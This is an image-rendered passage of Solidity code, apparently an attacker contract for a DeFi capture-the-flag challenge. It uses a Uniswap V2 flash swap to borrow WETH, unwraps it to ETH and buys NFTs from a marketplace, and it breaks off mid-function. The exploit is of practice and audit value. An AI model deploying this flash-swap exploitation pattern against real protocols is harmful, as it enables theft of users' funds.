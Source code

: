 ```solidity
    // Interfaces
    IERC721 private immutable NFT;
    IWETH private immutable WETH;
    IUniswapV2Pair private immutable UNISWAP_PAIR;

    // Addresses
    address private immutable marketplace;
    address private immutable buyer;
    address private immutable attacker;

    // Tokens to buy
    uint256[] tokenIds = [0, 1, 2, 3, 4, 5];

    receive() external payable {}

    constructor(
        address _nft,
        address payable _weth,
        address _pair,
        address payable _marketplace,
        address _buyer
    ) {
        NFT = IERC721(_nft);
        WETH = IWETH(_weth);
        UNISWAP_PAIR = IUniswapV2Pair(_pair);
        marketplace = _marketplace;
        attacker = msg.sender;
        buyer = _buyer;
    }

    function attack(uint256 _amount0) external {
        require(msg.sender == attacker);
        bytes memory _data = "1";

        // 1. Do a flash swap to get WETH
        UNISWAP_PAIR.swap(
            _amount0, // amount0 => WETH
            0, // amount1 => DVT
            address(this), // recipient of flash swap
            _data // passed to uniswapV2Call function that uniswapPair triggers on the recipient (this)
        );
    }

    // Function called by UniswapPair when making the flash swap
    function uniswapV2Call(
        address,
        uint256 _amount0,
        uint256,
        bytes calldata
    ) external {
        require(msg.sender == address(UNISWAP_PAIR) && tx.origin == attacker);

        // 2. Get ETH by depositing WETH
        WETH.withdraw(_amount0);

        // 3. Buy NFTs
        (bool nftsBought, ) = marketplace.call{value: _amount0}(
            abi.encodeWithSignature("buyMany(uint256[])", tokenIds)
        );

        // 4. Calculate flash swap's fee and total
        uint256 _fee = (_amount0 * 3) / 997 + 1;
```